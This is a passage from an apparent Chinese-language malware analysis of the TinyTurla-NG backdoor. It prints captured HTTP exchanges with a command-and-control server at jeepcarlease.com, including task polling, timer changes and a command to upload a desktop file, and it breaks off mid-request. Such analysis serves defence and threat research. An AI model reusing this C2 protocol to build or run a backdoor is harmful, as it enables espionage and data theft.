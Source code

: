 ```bash

---
Content-Disposition: form-data;name="id"
Content-Type: text/plain

307b5c9a
---
Content-Disposition: form-data;name="result"
Content-Type: text/plain

[+] ShortTimer and FailCounter changed. New ShortTimer is 1 minute & New FailCounter is 1
-----
....

#**********C&C 站点 -> TinyTurla-NG 新后门**********
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Date: Mon, 26 Feb 2024 03:36:10 GMT
Content-Length: 4

rsp:
```

#### 上传文件、下载文件类指令

上传文件、下载文件类指令的通信模型情况如下：

```bash
#**********TinyTurla-NG 新后门 -> C&C 站点**********
#字符串形式：
POST /wp-includes/blocks/rss.old.php HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary="-"
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1
Content-Length: 175
Host: jeepcarlease.com

---
Content-Disposition: form-data;name="id"
Content-Type: text/plain

307b5c9a
---
Content-Disposition: form-data;name="gettask"
Content-Type: text/plain

-----
.\
#**********C&C 站点 -> TinyTurla-NG 新后门**********
#字符串形式：
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Date: Mon, 26 Feb 2024 03:36:36 GMT
Content-Length: 39

rsp:post C:\Users\admin\Desktop\111.txt
#**********TinyTurla-NG 新后门 -> C&C 站点**********
#字符串形式：
POST /wp-includes/blocks/rss.old.php HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
```